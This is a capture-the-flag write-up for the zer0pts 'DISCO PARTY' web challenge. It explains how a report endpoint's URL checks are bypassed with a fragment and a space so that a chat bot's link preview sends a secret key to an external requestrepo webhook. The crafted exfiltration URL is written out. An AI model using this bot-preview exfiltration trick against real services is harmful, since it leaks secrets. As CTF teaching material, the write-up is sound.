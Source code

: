 # DISCO PARTY

## Description

There's maybe nothing spectial in description. 🤔
![Oops](./image/description.jpg)

## 💻 Explore the website

![Oops](./image/home.jpg)

There are 3 bottons here. Two first buttons seem common, so let try the last one.

I am allowed to create an invitation and to report issues about invitation.

![Oops](./image/test_web.gif)

Each invitation has an id.

## 🧑‍💻 Processing:
**web/app.py:** This file contains server code. There are some endpoints:

`/post/<string(length=16):id>`: I can get an invitation through this endpoint by supplying `id` (`len(id) == 16`). Besides, I can supply a `key` and make `is_admin` take value `True` to receive the flag. Maybe my target is `key` value.

`/api/new`: This creates post. I POST `title`, `content` and server will generate `id` for that post. Posts will be saved in database (`id`, `title`, `content`).

`api/delete`: Deletes a post if I had `id` and `key`.

`/api/report`: This endpoint takes my reports (`url`, `reason`, `g-recaptcha-response`). There are a lot of check stages here. After all, `message` will be saved in database. Look at the message form: 
```py 
message = f"URL: {url}?key={key}\nReason: {reason}"
```

Because there is bot directory, maybe I need to bypass check stages and make message contain my webhook like:
```py
f'URL: http://hjvnswkt.requestrepo.com?key={key}
Reason: something'
```
Or some messages similar. And the bot will click on the URL/send request and the key will be revealed. (In an ideal scenario) 🤤 

Let's check it out.

**bot/crawler.py:** 🤖

This bot is in a secret channel and will send/chat my message which is from `/api/report` endpoint.

There is no click here 😿.

I was stuck here for a very long time. 

Then I realized every big platforms like Discord have their own bots, and they click every URL in the conversation automatically. 

*Really? I don't believe, prove it.* 🤔

Setup a webhook:
![Oops](./image/setup_requestrepo.jpg)

Send a message with the webhook:
![Oops](./image/chat_url.jpg)

And receive requests:
![Oops](./image/request_discord_bot.jpg)

So, my plan is craft a message that contains `http://hjvnswkt.requestrepo.com/?key={key}` to get `key`.

**Bypass:**

```py
# Check URL
parsed = urllib.parse.urlparse(url.split('?', 1)[0])
if len(parsed.query) != 0:
    return flask.jsonify({"result": "NG", "message": "Query string is not allowed"})
if f'{parsed.scheme}://{parsed.netloc}/' != flask.request.url_root:
    return flask.jsonify({"result": "NG", "message": "Invalid host"})

# Parse path
adapter = app.url_map.bind(flask.request.host)
endpoint, args = adapter.match(parsed.path)
if endpoint != "get_post" or "id" not in args:
    return flask.jsonify({"result": "NG", "message": "Invalid endpoint"})

# Check ID
if not get_redis_conn(DB_TICKET).exists(args["id"]):
    return flask.jsonify({"result": "NG", "message": "Invalid ID"})
```

The first part makes sure my host (input `url`) is equal to server host.

The second part checks path of my URL which have to have `/post/<string(length=16):id>` form and there is `id` in request.

The last part takes `id` undercontrol (exists in database).

I think about a way. I use fragment to craft because none of three parts above do anything with fragment. This is my URL: `http://party.ctf.zer0pts.com:8007/post/UCs0yCK4AJwgyQnX# http://hjvnswkt.requestrepo.com`.

The space after `#` is necessary.
![Oops](./image/space_needed.jpg)

I just send report with that URL. Get key in requestrepo.
![Oops](./image/key.jpg)

And get the flag.
![Oops](./image/flag.jpg)

**🚩Flag: `zer0pts
{4h_p4rad1s3_l05t_6b4f6fbf5ee51003}`**

## 🤓 Notes:
There are some features I can abuse (Discord, Facebook, ... bot).
